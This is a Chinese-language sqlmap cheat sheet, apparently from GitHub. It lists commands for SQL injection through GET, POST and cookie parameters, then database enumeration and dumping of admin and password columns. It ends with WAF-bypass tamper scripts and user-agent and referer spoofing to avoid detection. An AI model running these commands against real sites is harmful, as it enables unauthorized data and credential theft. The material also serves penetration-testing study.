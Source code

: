 ﻿Sqlmap
======
1. 注入分法不同，种类不同，来个简单的分类：<br/>

        1.get型:        sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx"
        2.post型:       sqlmap -u "http://xxx.xx.xxx/xx.xxx" --data="xxxx=xxxx&xxxx=xxx"
        3.cookie类注入: sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx" --cookie="xxx=xxx&xxx=xxx" --level=2
                        (默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level
                        参数且数值>=2的时候也会检查cookie时面的参数，当>=3的时候将检查User-agent和Referer，
                        那么这就很简单了，我 们直接在原有的基础上面加上 –level 2 即可)
                        
        4.伪静态      : sqlmap -u "http://a.b.c/test/id/1*"
        5.包文件      : sqlmap -u "url" -r 1.txt 
        			（文件内容为http头以及data数据）
        		
        6.url文件     : sqlmap -u "url" -m url.txt
        			（文件内容为每行一个url）

2. 需要数据库

        --dbs
        
3. 得到数据库名称xxx，需要表:

        -D xxx --tables

4. 得到表名xxxx，需要列：

        -D xxx -T xxxx --columns
		
	Note:
        
           1) 指定列的范围从2－4 : python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump -T users -D test --start 2 --stop 4 -v 0
			
5. 得到列名有admin，password，需要值：

        -D xxx -T xxxx -C "admin,password" --dump
		
	Note:
        
	1) --dump-all 导出所有表，所有数据
				
6. 还需要绕waf

        python sqlmap.py -u "http://192.168.159.1/news.php?id=1" -v 3 --dbs --batch --tamper "space2morehash.py"
        
        相同的脚本还有：
        
            § space2morehash.py
            § space2hash.py
            § base64encode.py
            § charencode.py
		
		
7. 注入被识别出来是工具，断开咋办

        a. python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3
        b. python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 -a "./txt/user-agents.txt"
        c. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --referer "http://www.google.com" -v 3
